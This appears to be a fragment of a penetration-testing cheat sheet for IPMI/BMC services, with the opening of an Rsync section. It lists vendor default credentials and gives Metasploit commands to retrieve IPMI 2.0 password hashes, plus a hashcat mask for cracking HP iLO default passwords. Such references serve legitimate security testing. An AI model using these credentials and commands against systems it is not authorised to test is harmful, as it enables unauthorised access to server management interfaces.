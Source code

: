 
### Configuration

- Some unique default passwords

  | Product         | Username      | Password                                                     |
  | --------------- | ------------- | ------------------------------------------------------------ |
  | Dell iDRAC      | root          | calvin                                                       |
  | HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
  | Supermicro IPMI | ADMIN         | ADMIN                                                        |

### Exploit

- IPMI 2.0

  During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes  place. This can be leveraged to obtain the password hash for ANY valid  user account on the BMC. 

  - Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) module.

    ```bash
    msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts [IP]
    ```

  -  In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command

     `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` 

    which tries all combinations of upper case letters and numbers for an eight-character password.

### Interaction

- nmap sctipt

- metasploit version scan

  ```shell
  msf6 > use auxiliary/scanner/ipmi/ipmi_version 
  ```


## 873 - Rsyinc

### Generalities

- [Rsync](https://linux.die.net/man/1/rsync) is a fast and efficient tool for locally and remotely copying files.
- This [guide](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync) covers some of the ways Rsync can be abused (sometimes also without authentication)

### Interaction
